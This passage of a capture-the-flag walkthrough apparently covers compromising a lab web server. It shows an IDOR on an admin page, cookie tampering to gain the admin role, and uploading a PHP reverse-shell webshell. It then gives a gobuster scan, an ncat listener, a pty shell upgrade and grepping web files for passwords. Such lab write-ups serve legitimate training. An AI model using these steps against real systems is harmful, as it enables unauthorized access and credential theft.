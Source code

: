 *We check the URL on our browsers bar again where there is an id for every user:*

```
http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2
```

*We can try change the ```id``` variable to something else like for example ```1``` to see if we can enumerate the users. Indeed we got an ```information disclosure vulnerability``` (the screenshot is omitted here to save space), which we might be able to abuse. We now know the access ID of the ```admin``` user thus we can try to change the values in our cookie through the Developer tools so the ```user``` value to be ```34322``` and ```role``` value to be ```admin```. Then we can revisit the ```Uploads``` page. We finally got access to the upload form!*

*Now that we got access to the upload form we can attempt to upload a ```PHP reverse shell```. Instead of creating our own one, we will use an existing one. It is possible to find webshells under the folder ```/usr/share/webshells/``` (my Kali machine has them too by default). For this exercise we are going to use the ```/usr/share/webshells/php/php-reverse-shell.php```.*

*Of course, we are going to change the ```$ip``` and the ```$port``` variables to match our settings and then we will attempt to upload the file.*

*We finally managed to upload it. Now we might need to bruteforce directories in order to locate the folder where the uploaded files are stored but we can also guess it. ```uploads``` directory seems a logical assumption. We confirm that by running also the ```gobuster``` tool.*

```
gobuster dir --url http://{TARGET_IP}/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

*The gobuster immediately found the ```/uploads``` directory. We don't have permission to access the directory but we can try directly access our uploaded file. But first, we will need to set up a netcat connection (or ncat in my case):*

```
ncat -lvnp 8000
```

Then request our shell through the browser:

```
http://{TARGET_IP}/uploads/php-reverse-shell.php
```

*We got a reverse shell! In order to have a functional (interactive) shell though we can issue the following:*

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

*As user ```www-data``` we can't achieve many things as the role has restricted access on the system. Since the website is making use of PHP and SQL we can enumerate further the web directory for potential disclosures or misconfigurations. After some search we can find some interesting php files under ```/var/www/html/cdn- cgi/login directory```.*

*We can manually review the source code of all the pages or we can try search for interesting strings with the usage of grep tool. We can use ```cat *``` to read all files while pipeing the output to grep where we provide the pattern of a string that starts with the word passw and followed by any string such as for example words ```passwd``` or ```password```. We can also use the switch ```-i``` to ignore case sensitive words like ```Password```.*
